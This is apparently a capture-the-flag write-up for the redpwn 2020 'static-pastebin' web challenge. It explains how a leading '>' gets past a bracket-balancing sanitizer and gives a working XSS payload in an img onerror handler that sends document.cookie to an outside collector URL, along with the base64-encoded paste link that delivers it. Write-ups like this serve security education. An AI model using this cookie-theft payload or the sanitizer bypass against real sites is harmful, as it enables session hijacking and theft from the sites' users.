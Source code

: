 ### Solution
By looking at the [source code of the page](https://github.com/s-rodriguez/ctfs/blob/master/ctfs/redpwn2020/web/static-pastebin/first_script.js) that stores text we see that the link is then conformed by doing an `atob(text)`

When adding text and submitting the `Create` button, we can [analyze the second source](https://github.com/s-rodriguez/ctfs/blob/master/ctfs/redpwn2020/web/static-pastebin/second_script.js), which performs a sanitization over the text

Considering there is another admin page which needs the link to check for issues, we can try doing some kind of XSS. And most probably, the flag could be contained within the cookies

Looking with some more detail at the sanitization method, we can see that it looks for `< >` and only adds content if the brackets are balanced at that moment:

```javascript
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

So that one "couldn't" add something like:
```
<img src=x onerror="javascript:alert('XSS')"></img>
```

However, if we start the text with a closing bracket, then when it gets to the opening bracket everything will be "balanced". For example:
```
><img src=x onerror="javascript:alert('XSS')"></img>
```

We see that in fact we are able to sort out the sanitization. So we can build a more appropriate onerror callback so that it can send the cookies to a sink managed by us. For example:

```
><img src=x onerror="javascript:document.location='https://enoghoklyh418.x.pipedream.net/?c='+document.cookie"></img>
```

We can then generate the page, obtain the link that will look something like:
```
https://static-pastebin.2020.redpwnc.tf/paste/#Ij48aW1nIHNyYz14IG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vZW5vZ2hva2x5aDQxOC54LnBpcGVkcmVhbS5uZXQvP2M9Jytkb2N1bWVudC5jb29raWUiPjwvaW1nPg==
```
